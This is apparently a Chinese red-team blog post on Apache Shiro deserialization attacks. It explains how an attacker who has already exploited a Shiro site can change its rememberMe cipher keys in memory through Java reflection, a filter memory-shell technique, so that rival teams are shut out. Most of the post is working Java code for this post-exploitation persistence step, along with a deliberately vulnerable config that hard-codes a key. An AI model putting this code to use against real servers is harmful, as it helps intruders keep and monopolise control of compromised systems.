





## shiro 反序列化漏洞攻击拓展面--修改 key

- - -

### [0x00 前言](#toc_0x00)

在这个 shiro 末年时代，攻防演练越来越难。对于传统红队队员提出了更高的一些要求，shiro 最近的对于红蓝对抗中发挥了不可磨灭的价值。这里提出一些新奇的攻击手法针对 shiro 实战，提高红队队员的价值，以及让红蓝对抗更有意思一些。

- - -

### [0x01 默认环境](#toc_0x01)

试想当我们发现某站点存在 shiro 并且已知 key，那么这个站就**理论上**就不可能拿不下。但你能拿下，其他队伍也能拿下，那么如何将这个点牢牢的掌握在自己的手里呢？最好的办法就改加解密的 key 的值。

shiro <= 1.2.4 默认是将 key 写在**AbstractRememberMeManager**类的**DEFAULT\_CIPHER\_KEY\_BYTES**字段，当然还有其他方式配置文件、配置类等也是可以的。这里的 DEFAULT\_CIPHER\_KEY\_BYTES 字段是权限是**private static final**，只能通过反射方式去修改这个值。

[](https://storage.tttang.com/media/attachment/2022/03/02/392610bc-5828-48ef-b285-64f61c3a51ff.png)

由于权限太死太小，一般直接调用反射是无法进行直接的修改。值得庆幸的是 key 是字节数组类型，而不是 int、String 等基本类型，不然得通过反射修改之后还得通过反射调用才能获取修改后的值。这里给个代码示例：

```bash
import org.apache.shiro.codec.Base64;

public class Penson {
    private static final String strX = "strX";
    private static final int intX = 1;
    private static final Object objX = new StringBuilder("objX");
    private static byte[] keys = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");

    public String getStrX() {
        return strX;
    }

    public byte[] getKeys(){
        return keys;
    }

    public int getIntX() {
        return intX;
    }

    public Object getObjX() {
        return objX;
    }

    public Penson() {
    }
}
```

```bash
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;

public class DEMO1 {
    public static void main(String[] args) {
        Penson penson = new Penson();
        System.out.println("before 修改：" + penson.getIntX());
        System.out.println("before 修改：" + penson.getStrX());
        System.out.println("before 修改：" + penson.getObjX());
        System.out.println("before 修改：" + new String(penson.getKeys()));

        try {

            Field fieldInt = penson.getClass().getDeclaredField("intX");
            Field fieldStr = penson.getClass().getDeclaredField("strX");
            Field fieldObj = penson.getClass().getDeclaredField("objX");
            Field fieldKey = penson.getClass().getDeclaredField("keys");
            fieldInt.setAccessible(true);
            fieldStr.setAccessible(true);
            fieldObj.setAccessible(true);
            fieldKey.setAccessible(true);
            Field modifiers1 = fieldInt.getClass().getDeclaredField("modifiers");
            Field modifiers2 = fieldStr.getClass().getDeclaredField("modifiers");
            Field modifiers3 = fieldObj.getClass().getDeclaredField("modifiers");
            Field modifiers4 = fieldKey.getClass().getDeclaredField("modifiers");
            modifiers1.setAccessible(true);
            modifiers2.setAccessible(true);
            modifiers3.setAccessible(true);
            modifiers4.setAccessible(true);
            modifiers1.setInt(fieldInt,fieldInt.getModifiers() &~ Modifier.FINAL);
            modifiers2.setInt(fieldStr,fieldStr.getModifiers() &~ Modifier.FINAL);
            modifiers3.setInt(fieldObj,fieldObj.getModifiers() &~ Modifier.FINAL);
            modifiers4.setInt(fieldKey,fieldKey.getModifiers() &~ Modifier.FINAL);
            fieldInt.set(penson, 2);
            fieldStr.set(penson, "hello");
            fieldObj.set(penson, new StringBuffer("objx hello"));
            fieldKey.set(penson, new byte[]{12, 23, 45});
            System.out.println("");
            System.out.println("after修改 " + penson.getIntX());
            System.out.println("after修改 " + penson.getStrX());
            System.out.println("after修改 " + penson.getObjX());
            System.out.println("after修改 " + new String(penson.getKeys()));
            System.out.println();
            System.out.println("after修改 反射调用 " + fieldInt.get(penson));
            System.out.println("after修改 反射调用 " + fieldStr.get(penson));
            System.out.println("after修改 反射调用 " + fieldObj.get(penson));
            System.out.println("after修改 反射调用 " +new String((byte[])fieldKey.get(penson)));

        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }


    }
}
```

[](https://storage.tttang.com/media/attachment/2022/03/02/251256d0-797a-46ad-bdae-d1a9ef76ff46.png)

- - -

使用 spring boot 搭建 shiro 环境就免不了需要配置 bean，这里还是使用 GitHub 上项目[JavaLearnVulnerability](https://github.com/SummerSec/JavaLearnVulnerability)作为示例。这是一个最简单的配置下，不难发现最终所有配置内容都是最终到**ShiroFilterFactoryBean**之中。

```bash
@Configuration
public class ShiroConfig {
    @Bean
    MyRealm myRealm() {
        return new MyRealm();
    }

    @Bean
    DefaultWebSecurityManager securityManager() {
        DefaultWebSecurityManager manager = new DefaultWebSecurityManager();
        manager.setRememberMeManager(rememberMeManager());
        manager.setRealm(myRealm());
        return manager;
    }

    @Bean
    public RememberMeManager rememberMeManager(){
        CookieRememberMeManager cManager = new CookieRememberMeManager();
        cManager.setCipherKey(Base64.decode("4AvVhmFLUs0KTA3Kprsdag=="));
        SimpleCookie cookie = new SimpleCookie("rememberMe");
        cookie.setMaxAge(7 * 24 * 60 * 60);
        cManager.setCookie(cookie);
        return cManager;
    }

    @Bean
    ShiroFilterFactoryBean shiroFilterFactoryBean() {
        ShiroFilterFactoryBean bean = new ShiroFilterFactoryBean();
        bean.setSecurityManager(this.securityManager());
        Map<String, String> map = new LinkedHashMap();
        map.put("/**", "anon");//* anon：匿名用户可访问
        map.put("/*", "anon");//* anon：匿名用户可访问
        map.put("/index/**", "anon"); //authc：认证用户可访问
        map.put("/index/*", "anon"); //authc：认证用户可访问
        bean.setFilterChainDefinitionMap(map);
        return bean;
    }

}
```

从命名中就能看到是一个 filter bean，debug 查看一些请求的堆栈信息。随便找个调用 doFilter 方法进去就能发现存在 filters，ShiroFilterFactoryBean 是在第三个。

[](https://storage.tttang.com/media/attachment/2022/03/02/aa0398c5-2ceb-402d-bc5c-d6ad3f2967f8.png)

进行找到 securityManager->rememberMeManager 就能发现**encryptionCipherKey**和**decryptionCipherKey**。

[](https://storage.tttang.com/media/attachment/2022/03/02/a5267e90-e5a0-404b-95af-8ac2aea4e976.png)

- - -

去**AbstractRememberMeManager**源码可以发现如果开发人员没有配置**setCipherKey**方法的，encryptionCipherKey 和 decryptionCipherKey 是和 DEFAULT\_CIPHER\_KEY\_BYTES 是一个值。所以其实就算前面我们修改成功 DEFAULT\_CIPHER\_KEY\_BYTES 的值也是没有用，本质得修改 encryptionCipherKey 和 decryptionCipherKey 的值。

### [0x02 修改思路](#toc_0x02)

我们得出得修改 decryptionCipherKey 和 encryptionCipherKey 的值，目前有两种解决方案：

1.  拿下目标之后直接对目标的配置文件就行修改，然后重启服务。
2.  利用 filter 内存马思维去修改 shiroFilterFactoryBean 中的 encryptionCipherKey 和 decryptionCipherKey 的值。

显然重启服务是一个不可取操作，那么只剩下 filter 内存马方法。这里直接给出解决代码：

```bash
    @RequestMapping("/say")
    public String HelloSay(HttpServletRequest request , HttpServletResponse response) throws Exception {
        ServletContext context = request.getServletContext();
        Object obj = context.getFilterRegistration("shiroFilterFactoryBean");
        Field field = obj.getClass().getDeclaredField("filterDef");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getDeclaredField("filter");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getSuperclass().getDeclaredField("securityManager");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getSuperclass().getDeclaredField("rememberMeManager");
        field.setAccessible(true);
        obj = field.get(obj);
        java.lang.reflect.Method setEncryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setEncryptionCipherKey", new Class[]{byte[].class});
        byte[] bytes = java.util.Base64.getDecoder().decode("3AvVhmFLUs0KTA3Kprsdag==");
//                    java.util.Base64.getEncoder().encode(bytes);
        setEncryptionCipherKey.invoke(obj, new Object[]{bytes});
        java.lang.reflect.Method setDecryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setDecryptionCipherKey", new Class[]{byte[].class});
        setDecryptionCipherKey.invoke(obj, new Object[]{bytes});
//        response.
//        response.getClas
        response.getWriter().println("ok");
        response.getWriter().flush();
        response.getWriter().close();
        return "ok";
    }
```

实际本地测试效果，这里使用笔者自己魔改的 shiro\_attack 工具进行实际测试：

这是修改之前的使用配置 key(4AvVhmFLUs0KTA3Kprsdag==) 的攻击效果：

[](https://storage.tttang.com/media/attachment/2022/03/02/9c4cc7eb-a63d-4c0b-aebc-c3d5ef8a1097.png)

[](https://storage.tttang.com/media/attachment/2022/03/02/53b7d42c-10ad-4898-8062-6a6492345d06.png)

然后访问**/say**修改 key

[](https://storage.tttang.com/media/attachment/2022/03/02/f55fb0c7-938d-4251-bf1b-56a713a0c5e1.png)

[](https://storage.tttang.com/media/attachment/2022/03/02/32c04242-0d49-4a63-b46b-de6ffe36ce46.png)

[](https://storage.tttang.com/media/attachment/2022/03/02/b8e99319-6899-4092-b26e-779caf4e7167.png)

### [0x03 总结](#toc_0x03)

修改 shiro 的 filter 逻辑进而修改加解密 key，其实和打 filter 内存马逻辑差不多。只是打内存马是添加一个 filter，然后将添加的 filter 处理逻辑移到第一个处理。修改 key 是原本的处理逻辑就有存在 filter，但将原本的 filter 修改逻辑，将 key 的字节修改成设置的 key。所以说重启服务就修改 key 失效，和内存马逻辑是一样的。然后这个对业务应该是没有任何影响除非业务用到了 key，总之修改 key 还是慎重吧。

- - -

### [0x04 参考](#toc_0x04)

[https://zhuanlan.zhihu.com/p/107267834](https://zhuanlan.zhihu.com/p/107267834)
